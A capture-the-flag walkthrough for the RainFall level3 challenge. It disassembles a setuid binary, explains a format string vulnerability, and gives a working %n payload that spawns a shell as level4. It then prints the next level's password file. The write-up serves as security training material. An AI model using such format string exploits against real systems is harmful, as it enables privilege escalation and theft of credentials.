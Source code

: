 ## Walkthrough

We list the files in the current home directory.

```nasm
level3@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
level3@RainFall:~$ file level3
level3: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV),
 dynamically linked (uses shared libs), for GNU/Linux 2.6.24, 
 BuildID[sha1]=0x09ffd82ec8efa9293ab01a8bfde6a148d3e86131, not stripped
```

The file is owned by **level4** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```nasm
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048344  _init
0x08048390  printf
0x08048390  printf@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  fwrite
0x080483b0  fwrite@plt
0x080483c0  system
0x080483c0  system@plt
0x080483d0  __gmon_start__
0x080483d0  __gmon_start__@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  v
0x0804851a  main
0x08048530  __libc_csu_init
0x080485a0  __libc_csu_fini
0x080485a2  __i686.get_pc_thunk.bx
0x080485b0  __do_global_ctors_aux
0x080485dc  _fini
```

There are 2 interesting functions: `main()` and `v()`.

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x0804851a <+0>:	push   %ebp
   0x0804851b <+1>:	mov    %esp,%ebp
   0x0804851d <+3>:	and    $0xfffffff0,%esp
   0x08048520 <+6>:	call   0x80484a4 <v>
   0x08048525 <+11>:	leave  
   0x08048526 <+12>:	ret    
End of assembler dump.
```

The `main()` function only calls the `v()` function.

```nasm
(gdb) disas v
Dump of assembler code for function v:
   0x080484a4 <+0>:	push   %ebp
   0x080484a5 <+1>:	mov    %esp,%ebp
   0x080484a7 <+3>:	sub    $0x218,%esp
   0x080484ad <+9>:	mov    0x8049860,%eax
   0x080484b2 <+14>:	mov    %eax,0x8(%esp)
   0x080484b6 <+18>:	movl   $0x200,0x4(%esp)
   0x080484be <+26>:	lea    -0x208(%ebp),%eax
   0x080484c4 <+32>:	mov    %eax,(%esp)
   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:	lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:	mov    %eax,(%esp)
   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
   0x080484da <+54>:	mov    0x804988c,%eax
   0x080484df <+59>:	cmp    $0x40,%eax
   0x080484e2 <+62>:	jne    0x8048518 <v+116>
   0x080484e4 <+64>:	mov    0x8049880,%eax
   0x080484e9 <+69>:	mov    %eax,%edx
   0x080484eb <+71>:	mov    $0x8048600,%eax
   0x080484f0 <+76>:	mov    %edx,0xc(%esp)
   0x080484f4 <+80>:	movl   $0xc,0x8(%esp)
   0x080484fc <+88>:	movl   $0x1,0x4(%esp)
   0x08048504 <+96>:	mov    %eax,(%esp)
   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
   0x0804850c <+104>:	movl   $0x804860d,(%esp)
   0x08048513 <+111>:	call   0x80483c0 <system@plt>
   0x08048518 <+116>:	leave  
   0x08048519 <+117>:	ret    
End of assembler dump.
```

The function:

- Calls `fgets()` to read input into a buffer located at `ebp - 0x208`
- Calls `printf()` to print the buffer to stdout
- Retrieves the value of a global variable stored at memory address `0x804988c` into the `%eax` register
- Compares the value of `%eax` with`64` (`0x40` in hexadecimal)
- If the value is equal to `64` :
    - Prints a message using the `fwrite()` function ****
    - Calls the system’s shell `/bin/sh`  using the `system()` function.

### Format string vulnerability

This function is subjected to a format string vulnerability which occurs when a user input is improperly used as a format string in functions like `printf()`, allowing attackers to manipulate memory, access sensitive data, or execute arbitrary code.

Our goal is to overwrite the value of the global variable stored at the address `0x804988c`(the compared to 64) and replace it with the number 64.

The `printf()` function includes the specifier `%n` which writes the number of characters printed so far into the address provided as its corresponding argument. This allows us to overwrite a specific memory address with the number of characters printed by the format string.

### Converting the address

The global variable (whose value is stored in the `%eax` register and compared to `64`) is located at the address `0x804988c`. To properly inject this address into the format string, we need to represent it in **little-endian** format, asthis is how memory addresses are stored on the target system. The little-endian format for the address `0x804988c` is:  `\x8c\x98\x04\x08` .

**Little-endian** is a way of representing multi-byte data in memory where the **least significant byte** (the "lowest" byte) is stored at the **lowest memory address**, and the **most significant byte** is stored at the highest memory address.

### Overwriting the address

To achieve our goal, we need to craft a string such that the total number of characters printed is `64`. The `%n` specifier will then overwrite the global variable at `0x804988c` with the number `64` (the number of characters printed). Each `%x` will print a 4-byte value, each  `.`  is a 1-byte character and the `%45x` will print 45-byte scharacters (filling with 0 or spaces). This gives us : 

```nasm
'.%x.%x.%45x.%n'
```

### Final command
```
The final command is :
level3@RainFall:~$ (python -c "print('\x8c\x98\x04\x08' + '.%x.%x.%45x.%n')"; cat) | ./level3 
�.200.b7fd1ac0.                                     b7ff37d0.
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```
